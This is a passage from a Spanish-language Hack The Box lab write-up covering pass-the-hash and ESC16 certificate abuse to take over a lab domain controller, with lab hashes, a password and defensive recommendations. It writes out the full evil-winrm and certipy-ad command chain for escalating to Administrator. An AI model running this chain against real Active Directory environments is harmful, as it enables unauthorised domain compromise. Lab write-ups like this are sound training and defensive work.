

```
NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
NT hash for 'ca_svc'   : ca0f4f9e9eb8a092addf53bb03fc98c8
```

### Pass-the-hash y primera flag

Con el hash NT de `winrm_svc` (miembro implícito de quienes pueden iniciar sesión WinRM, según su propio nombre), autenticamos directamente sin necesitar la contraseña en claro:

```bash
evil-winrm -i 10.129.72.203 -u 'winrm_svc' -H '33bd09dcd697600edf6b3a7af4875767'
```

> 🛠️ **Pass-the-hash (PtH)** — en Windows, el protocolo NTLM autentica con el **hash NT**, no con la contraseña en claro. Por eso basta con conocer el hash para autenticarse como esa cuenta, sin necesidad de crackearlo. `evil-winrm -H` acepta directamente el hash en lugar de `-p` (contraseña).



```
cd Desktop
dir
```



`user.txt` (34 bytes) confirmado en el escritorio de `winrm_svc` — primera flag.

## Escalada de privilegios — ESC16

Con el hash de `ca_svc` (la cuenta de servicio de la Autoridad Certificadora), buscamos plantillas y configuraciones vulnerables en el entorno ADCS:

```bash
certipy-ad find -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.72.203 -vulnerable -enabled -stdout
```

> 🛠️ **`certipy-ad find -vulnerable`** — enumera CAs y plantillas de certificado del dominio y las contrasta contra el catálogo conocido de vulnerabilidades ADCS (ESC1 a ESC16), señalando cuáles son explotables con los permisos de la cuenta indicada.



```
CA Name              : fluffy-DC01-CA
Disabled Extensions  : 1.3.6.1.4.1.311.25.2
[!] Vulnerabilities
  ESC16              : Security Extension is disabled.
```

### ¿Qué es ESC16 y por qué funciona?

Cuando un certificado se usa para autenticarse en Kerberos (PKINIT), el controlador de dominio necesita decidir **a qué cuenta de AD corresponde** ese certificado. La extensión `szOID_NTDS_CA_SECURITY_EXT` (OID `1.3.6.1.4.1.311.25.2`) es el mecanismo diseñado para eso: incrusta el **SID** del solicitante original dentro del propio certificado emitido, de forma que el DC pueda verificar que el certificado solo sirve para autenticar como ese SID concreto, aunque el certificado contenga además otros identificadores (como un UPN) que podrían apuntar a otra cuenta.

**ESC16** es precisamente que esa extensión de seguridad esté **deshabilitada a nivel de CA** (como aparece aquí, en `Disabled Extensions`) — no en una plantilla concreta, sino de forma global para todos los certificados que emite. Sin el SID embebido como ancla de verdad, el DC recurre al criterio débil: autentica al solicitante como la cuenta cuyo **UPN coincide** con el del certificado. Esto convierte el ataque en trivial si se controla una cuenta que puede:

1. Cambiar su propio **UPN** al de una cuenta privilegiada (aquí, `administrator`) — algo que cualquier cuenta con permisos de autoescritura sobre su atributo `userPrincipalName` puede hacer.
2. Solicitar un certificado válido para autenticación (plantilla `User`, habilitada por defecto para cualquier usuario del dominio) — el certificado hereda ese UPN falso.
3. Restaurar el UPN original (para no romper el funcionamiento normal de la cuenta ni dejar rastro evidente).
4. Autenticarse con el certificado: el DC, al no poder verificar el SID real, confía en el UPN del certificado y entrega un ticket **como si fuera la cuenta privilegiada** — en este caso, Administrator.

```bash
certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'administrator'
```

> 🛠️ **`certipy-ad account update -upn`** — modifica vía LDAP el atributo `userPrincipalName` de la cuenta indicada. Aquí cambiamos el UPN de `ca_svc` (que controlamos) para que coincida con el de `administrator`.



```bash
certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.72.203 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
```

> 🛠️ **`certipy-ad req -template User`** — solicita un certificado a la CA indicada usando la plantilla por defecto `User` (habilitada para cualquier usuario autenticado), autenticándose como `ca_svc` vía pass-the-hash. El certificado resultante incorpora el UPN actual de `ca_svc`, que en este momento es `administrator`.



```
Got certificate with UPN 'administrator'
Saving certificate and private key to 'administrator.pfx'
```

Restauramos el UPN original de `ca_svc` — el certificado ya emitido conserva el UPN falso, así que esta restauración no afecta al ataque, solo evita dejar la cuenta en un estado inconsistente:

```bash
certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'ca_svc@fluffy.htb'
```



Autenticamos con el certificado `administrator.pfx` contra Kerberos vía PKINIT:

```bash
certipy-ad auth -pfx administrator.pfx -domain 'fluffy.htb' -dc-ip 10.129.72.203
```

> 🛠️ **`certipy-ad auth -pfx`** — realiza la autenticación PKINIT con el certificado indicado, obtiene un TGT y, adicionalmente, recupera por U2U el hash NT de la cuenta con la que autenticó — en este caso, Administrator, gracias a ESC16.



```
Certificate identities:
    SAN UPN: 'administrator'
```

> 🔒 El hash NT real de Administrator recuperado en este paso no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el comando y el mecanismo exactos para obtenerlo quedan documentados arriba.

Pass-the-hash final con Evil-WinRM, usando el hash recuperado de Administrator:

```bash
evil-winrm -u 'Administrator' -H '<hash NT de Administrator>' -i dc01.fluffy.htb
```



## 5. Post-explotación y flags

```
cd C:\Users\Administrator\Desktop
dir
```



`root.txt` (34 bytes) confirmado en el escritorio de Administrator — compromiso total del controlador de dominio.

> 🔒 El contenido exacto de `user.txt` y `root.txt` no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el camino completo hasta cada uno queda documentado en las secciones §4 y §5.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Share SMB `IT` con permisos de escritura para un usuario de dominio estándar | Share `IT` | Permite subir un fichero malicioso que será procesado por el personal de IT |
| **CVE-2025-24071** (NTLM leak vía `.library-ms` en extracción de ZIP) | Procesamiento del fichero subido | Captura de credenciales de otro usuario de dominio sin interacción directa de la víctima |
| Contraseña débil, presente en `rockyou.txt` | Cuenta `p.agila` | Acceso autenticado al dominio tras crackear el hash NTLMv2 |
| `OWNER`/`DACL: WRITE` sobre un grupo de AD asignado a una cuenta de bajo privilegio | Grupo `Service Accounts` | Auto-adición al grupo y herencia de sus permisos de escritura sobre cuentas de servicio |
| Escritura sobre `msDS-KeyCredentialLink` de cuentas de servicio (abuso vía Shadow Credentials) | `ca_svc`, `winrm_svc` | Extracción de hashes NT sin conocer ni resetear contraseñas |
| **ESC16**: extensión de seguridad deshabilitada en la CA | `fluffy-DC01-CA` (ADCS) | Un certificado con UPN arbitrario autentica como el principal con ese UPN — escalada directa a Administrator |

## Recomendaciones defensivas

- Restringir los permisos de escritura en shares SMB al mínimo necesario; nunca exponer un share de IT con escritura a cuentas de usuario estándar.
- Aplicar el parche de CVE-2025-24071/CVE-2025-24054 y tratar con cautela cualquier archivo comprimido recibido de fuentes no confiables.
- Exigir contraseñas robustas y políticas de rotación en todas las cuentas de dominio, incluidas las de servicio.
- Auditar periódicamente las ACLs de los grupos de AD: ningún grupo con permisos elevados debería tener `OWNER`/`WRITE` en manos de cuentas de bajo privilegio.
- Monitorizar cambios en el atributo `msDS-KeyCredentialLink` de cuentas sensibles — es el indicador directo de un ataque de Shadow Credentials.
- Mantener habilitada la extensión de seguridad (`szOID_NTDS_CA_SECURITY_EXT`) en todas las CAs y plantillas de certificado para prevenir ESC16.
- Restringir qué cuentas pueden solicitar certificados con plantillas que habilitan autenticación (como `User`), y monitorizar cambios no esperados en el atributo `userPrincipalName` de cuentas con privilegios de solicitud de certificados.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` / `nmap` | Descubrimiento de host y enumeración de puertos/servicios |
| `enum-nmap` | Script propio que resume la salida de Nmap |
| `/etc/hosts` | Resolución manual de nombres, imprescindible para Kerberos y herramientas de AD |
| `smbclient -L` / `get` / `put` | Enumerar shares SMB, y descargar/subir ficheros dentro de una sesión |
| **`.library-ms`** | Fichero de biblioteca de Windows Explorer; puede declarar una ruta de red que Explorer resuelve automáticamente al extraerlo de un ZIP/RAR (CVE-2025-24071) |
| **Responder** | Simula servicios de red (SMB, LLMNR, NBT-NS) para capturar intercambios de autenticación NTLM |
| `hashid` | Identifica el tipo de hash y su modo correspondiente en hashcat |
| `hashcat -m 5600` | Ataque de diccionario sobre hashes NetNTLMv2 |
| **`bloodyAD`** | Enumeración y abuso de Active Directory sobre LDAP desde Linux (lectura/escritura de atributos, grupos, ACLs) |
| `get writable` (bloodyAD) | Lista los objetos de AD sobre los que el usuario autenticado tiene permisos de escritura |
| `add groupMember` (bloodyAD) | Añade un principal como miembro de un grupo de AD |
| **ACL abuse / `OWNER`+`DACL: WRITE`** | Controlar la lista de control de acceso de un objeto permite concederse a uno mismo cualquier permiso sobre él, sin necesidad de `GenericAll` explícito |
| `net time set -S` | Sincroniza el reloj local con el DC — necesario para que Kerberos acepte los tickets |
| **Shadow Credentials** (`certipy-ad shadow auto`) | Abusa de `msDS-KeyCredentialLink` para vincular un certificado propio a una cuenta víctima y extraer su hash NT vía PKINIT + U2U, sin tocar su contraseña |
| **Pass-the-hash (PtH)** | Autenticarse con el hash NT directamente, sin necesidad de la contraseña en claro ni de crackearlo |
| `evil-winrm -H` | Cliente WinRM que acepta autenticación por hash NT (pass-the-hash) en lugar de contraseña |
| **ADCS / `certipy-ad find -vulnerable`** | Enumera Autoridades Certificadoras y plantillas de certificado, detectando vulnerabilidades conocidas (ESC1–ESC16) |
| **ESC16** | Extensión de seguridad `szOID_NTDS_CA_SECURITY_EXT` deshabilitada en la CA; el DC autentica certificados por UPN en vez de por SID embebido, permitiendo suplantar a cualquier cuenta cambiando el propio UPN antes de solicitar el certificado |
| `certipy-ad account update -upn` | Modifica vía LDAP el `userPrincipalName` de una cuenta controlada |
| `certipy-ad req -template User` | Solicita un certificado a una CA usando una plantilla concreta |
| `certipy-ad auth -pfx` | Autenticación PKINIT con un certificado; obtiene TGT y, vía U2U, el hash NT de la cuenta autenticada |

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
